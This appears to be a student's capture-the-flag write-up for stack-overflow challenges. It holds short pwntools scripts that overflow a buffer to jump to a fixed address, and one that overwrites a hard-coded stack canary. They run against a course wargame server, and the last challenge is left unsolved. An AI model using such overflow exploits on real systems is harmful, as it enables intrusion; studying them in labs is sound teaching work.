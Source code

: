 p.recvuntil("jump...")

payload = b""
payload += b"A" * (0x48)
payload += p32(0x080484d6)

p.sendline(payload)

p.interactive()
==================================================================



==================================================================
best security
==================================================================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMi1iZXN0c2VjdXJpdHkiLCJpcCI6IjEwMS4xNjQuMzMuMjE5Iiwic2Vzc2lvbiI6ImVkMzQ3MDU5LTIzNGItNDZiYS04MmYwLTFjNTBmZjI2MzNjYiJ9.QSZg6f6cvp15nbw1S1IWuaf3ISOnQBhhMMNCwSCVQro}
------------------------------------------------------------------
General overview
1. I simply had to overwrite the canary address with the required canary value, I found the canary value with binary ninja as "1234" was pushed.
2. I found the offset of the canary address from the address that were being loaded into eax.
3. Finally, I simply needed to print enough random values to get to the canary address, and then print the canary value to this address.
------------------------------------------------------------------
Program used
#! /bin/env/ python

from pwn import *

p = remote("plsdonthaq.me", 2003)
# p = process("./bestsecurity")

p.recvuntil("yeah...")

payload = b""
payload += b"A" * (0x80) # 0x89 - 0x9
payload += b"1234" # canary address

p.sendline(payload)

p.interactive()
==================================================================



==================================================================
stack-dump
==================================================================
Flag: 
------------------------------------------------------------------
General overview
1. I couldn't work out the correct offsets to push the canary value into the correct spot, but I believe I was really close.
------------------------------------------------------------------
Program used
#! /bin/env/ python
